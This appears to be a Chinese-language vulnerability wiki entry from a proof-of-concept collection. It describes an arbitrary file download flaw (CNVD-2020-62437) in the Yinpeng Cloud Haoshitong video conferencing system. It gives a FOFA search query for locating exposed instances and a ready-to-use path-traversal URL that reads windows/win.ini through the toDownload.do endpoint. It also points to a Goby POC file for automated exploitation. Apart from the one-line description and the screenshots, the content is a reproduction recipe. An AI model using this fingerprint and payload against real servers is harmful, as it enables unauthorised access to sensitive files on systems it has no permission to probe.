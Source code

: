 # 银澎云计算 好视通视频会议系统 任意文件下载

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 银澎云计算 好视通视频会议系统

## FOFA

> [!NOTE]
>
> app="Hanming-Video-Conferencing"

## 漏洞复现

登录页面如下

![](resource/银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437/media/1.png)

漏洞Url为

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![](resource/银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437/media/2.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Yinpeng_Hanming_Video_Conferencing__Arbitrary_file_read.json

![](resource/银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437/media/3.png)

![](resource/银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437/media/4.png)